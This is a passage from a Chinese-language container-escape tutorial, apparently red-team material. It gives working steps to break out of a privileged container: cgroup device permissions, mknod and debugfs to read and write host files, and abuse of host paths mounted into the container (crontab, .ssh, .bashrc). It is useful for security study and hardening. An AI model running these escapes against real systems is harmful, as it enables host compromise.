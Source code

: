 另外一个比较小众方法是借助上面 lxcfs 的思路，复用到 sys\_admin 或特权容器的场景上读写母机上的文件。（腾讯蓝军的兄弟们问得最多的手法之一，每过一段时间就有人过来问一次 ~

1、首先我们还是需要先创建一个 cgroup 但是这次是 device subsystem 的。  
mkdir /tmp/dev  
mount -t cgroup -o devices devices /tmp/dev/

2、修改当前已控容器 cgroup 的 devices.allow，此时容器内已经可以访问所有类型的设备, 命令： echo a > /tmp/dev/docker/b76c0b53a9b8fb8478f680503164b37eb27c2805043fecabb450c48eaad10b57/devices.allow

3、同样的，我们可以使用 mknod 创建相应的设备文件目录并使用 debugfs 进行访问，此时我们就有了读写宿主机任意文件的权限。  
mknod near b 252 1  
debugfs -w near

![](assets/1700701621-308c584aba3cac39da9a50ce9ce90bfe.png)

## 5.4、特殊路径挂载导致的容器逃逸

这类的挂载很好理解，当例如宿主机的内的 /, /etc/, /root/.ssh 等目录的写权限被挂载进容器时，在容器内部可以修改宿主机内的 /etc/crontab、/root/.ssh/、/root/.bashrc 等文件执行任意命令，就可以导致容器逃逸。
